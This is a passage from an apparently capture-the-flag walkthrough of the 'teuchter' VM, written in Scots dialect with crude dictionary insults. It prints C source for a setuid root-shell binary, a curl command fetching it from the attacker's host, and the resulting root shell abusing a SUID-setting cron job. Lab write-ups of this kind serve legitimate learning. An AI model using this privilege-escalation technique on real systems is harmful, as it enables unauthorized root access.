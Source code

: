Back to the dictionaries it is, and memory alert, Ah remembered being called a numpty once!

> numpty - A person who is incapable of performing the simplest of task correctly. Usual symptoms 
> include poor hand-eye coordination, zero common sense and the general illusion that they are 
> special (caused by parents referring to them as such and the numpty not fully grasping the meaning
> implied).

> Common causes are being dropped as a baby or repeated heavy blows to head in later life.

> dobber - A Glasgow term for a dick head or in general just a stupid cunt.

Now for the code, attempts to put PHP shells on the server fail because the shells get deleted. Also, a couple of file transfer utilities have been removed (the reason why Ah resorted to curl). It looks like this might be used in a cronjob. Finally, if the semaphore file exists, its owner is changed to root and the SUID bit is set. Which means, we can create a semaphore file that would allow us to become root if it were SUID.

On my box, Ah compiled an executable (no GCC on the target) with the following C code:

``` 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

Ah made it executable for everyone and transfered it to the target, again with curl:

``` 
curl http://192.168.145.129/rootme --output ./semaphore     
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 16712  100 16712    0     0  1002k      0 --:--:-- --:--:-- --:--:-- 1020k
```

Waited a while, thought about some Irn-Bru, came back and got root!

``` 
./semaphore
root@teuchter:~/letterfromamerica#
```

Finding the flag is usually the last step, but not on knightmare's machines!

``` 
oot@teuchter:/root# ls -alh
ls -alh
total 1.1M
drwx------  5 root root 4.0K Nov  2  2016 .
drwxr-xr-x 23 root root 4.0K Nov  2  2016 ..
drwx------  2 root root 4.0K Nov  2  2016 .aptitude
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Nov  2  2016 .cache
-rw-r--r--  1 root root 1.1M Jul  9  2016 flag.jpg
-rw-r--r--  1 root root  108 Sep 23  2016 flag.txt
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  3 root root 4.0K Aug  1  2016 re-record-not-fade-away
-rw-r--r--  1 root root   75 Jul  9  2016 .selected_editor
-rw-r--r--  1 root root   45 Oct 13 20:00 shells.tgz
-rw-------  1 root root 3.4K Nov  2  2016 .viminfo
```
